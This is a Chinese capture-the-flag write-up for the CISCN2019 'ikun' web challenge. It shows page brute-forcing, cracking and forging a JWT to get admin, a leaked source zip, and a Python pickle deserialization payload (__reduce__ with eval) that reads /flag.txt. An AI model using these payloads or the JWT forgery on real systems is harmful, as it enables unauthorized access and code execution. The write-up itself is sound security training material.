 # 题目

## [CISCN2019 华北赛区 Day1 Web2]ikun1

提示 python pickle



1.查看页面源码，发现提示

![image-hint](../images/ikun-hint.png)
页面提示“爆破*站：资金募集 11540.0
ikun们冲鸭,一定要买到lv6!!!”

先通过代码找到lv6
```python
import requests
for i in range(200):
    url='http://a6d3ddb8-6b69-4a87-ba44-ed25aa0a0cee.node5.buuoj.cn:81/shop?page='+str(i)
    result=requests.get(url).text
    if '/static/img/lv/lv6.png' in result:
        print (url)
```
http://a6d3ddb8-6b69-4a87-ba44-ed25aa0a0cee.node5.buuoj.cn:81/shop?page=181
找到level 6的页面 181，

下单，修改优惠比例，提示admin才行，查看页面请求，得到jwt token

2.解密jwt token

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMSJ9.kFKLac89rUM6C1Rk2FHRmwWFsd0DFfwxuqM1rdaeRNU;

得到密码是1kun

![ikun-jwtcrack](../images/ikun-jwtcrack.png)

重新构建jwt 填回页面，找到

```javascript
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
<div class="ui segment">
<img src="/static/img/b.png" alt=""/>
```

3.下载源码

发现有pickle，怀疑有pickle反序列化漏洞(admin.py)

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

构建运行脚本（需用python2）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```



```shell
 ✘ 🐸   ~/Alven/CTF/BugKu/web-ikun1  /Users/alven/.pyenv/versions/2.7.18/bin/python /Users/alven/Alven/CTF/BugKu/web-ikun1/www/exp.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```



替换become参数为上payload，得出

![ikun-decome-bp](../images/ikun-decome-bp.png)


# 得出
flag{69f0688e-9ae0-4f82-a181-ad455a7a8fd1}

# 参考
https://guokeya.github.io/post/ciscn2019-hua-bei-sai-qu-day1-web2ikunpython-fan-xu-lie-hua/